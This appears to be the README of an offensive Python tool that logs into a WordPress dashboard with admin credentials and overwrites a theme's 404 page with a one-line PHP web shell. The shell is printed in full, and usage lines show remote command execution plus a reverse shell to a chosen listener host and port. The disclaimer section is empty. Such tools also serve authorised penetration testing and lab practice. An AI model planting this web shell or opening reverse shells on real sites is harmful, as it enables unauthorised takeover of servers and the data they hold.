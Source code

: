 # WP-editor-shell
Python script to automaticly get a reverse shell from WP theme editor page 

## Description
This script was created to simplify the creation of a reverse shell from a wordpress dashboard editor page. It allow the user to update the page 404 of a theme and replace the content with `<?php system($_GET["cmd"]);?>` which then allow command execution on the page. 

## Usage 
Usage to upload the PHP payload and gain RCE on the site 
`python wp-editor-shell.py --url http://127.0.0.1/wordpress -u admin -p admin `

Usage to get a reverse shell
`python wp-editor-shell.py --url http://127.0.0.1/wordpress -u admin -p admin --lhost 172.0.0.1 --lport 80`
You need to open a listener first ! 
## Help 


`-h, --help       Display help message`

`-u, --username   Username to use for wordpress Dasboard`

`-p, --password   Password to use for wordpress Dasboard`

`--url            Address of the target website`

`--lhost          Ip address to use for the reverse shell`

`--lport          Local port to use for the reverse shell`


## Disclaimer 

